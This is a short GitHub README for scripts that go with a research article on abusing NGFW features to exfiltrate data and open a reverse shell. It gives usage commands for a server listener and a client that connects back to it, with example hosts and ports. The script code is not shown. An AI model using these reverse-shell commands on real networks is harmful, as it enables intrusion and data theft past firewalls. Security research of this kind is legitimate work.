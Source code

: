 # When features turn into nightmares
## How threat actors can exploit NGFW features to exfiltrate data and establish a reverse shell

To run the experiments described in this [article](https://medium.com/@pllgiulio96/when-features-turn-into-nightmares-how-threat-actors-can-exploit-ngfw-features-to-exfiltrate-data-125e2f33372b) you can use the script available in this repository.
You must run firstly the script on the server, that opens a listener, and then the one on the client that connects to it.


## Server script

Usage:
>	python shell-server.py [-p \<PORT\> -b \<BUFFER_SIZE\>]

Examples:
>	python shell-server.py -p 44444 -b 50
  
>	python shell-server.py -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of client)
  
>	-b 100 (must be the same of client)



## Client script

Usage:
>	python shell-client.py -s \<SERVER\> [-p \<PORT\> -b \<BUFFER_SIZE\>]

Example:
>	python shell-client.py -s 192.168.100.54 -p 44444 -b 50
  
>	python shell-client.py -s example.com -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of server)

>	-b 100 (must be the same of server)






